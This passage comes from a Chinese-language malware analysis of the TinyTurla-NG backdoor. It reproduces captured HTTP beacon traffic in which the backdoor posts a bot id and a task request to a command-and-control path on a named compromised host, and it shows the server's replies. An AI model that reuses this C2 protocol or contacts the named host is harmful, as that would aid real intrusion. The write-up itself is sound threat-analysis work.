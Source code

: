 ```plain

Client Ready
-----
....  

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:35:54 GMT
Content-Length: 4

rsp:
```

### 远控功能

通过分析，发现 TinyTurla-NG 新后门支持多种远控指令，通信模型结构主要有两种类型：

-   远控指令为除上传文件、下载文件外的常规指令；
-   远控指令为上传文件、下载文件类指令；

#### 常规指令

常规指令的通信模型情况如下：

```plain
#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 175
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="gettask"
Content-Type: text/plain

-----
.a

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:01 GMT
Content-Length: 15

rsp:timeout 1 1

#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 267
Host: jeepcarlease.com
```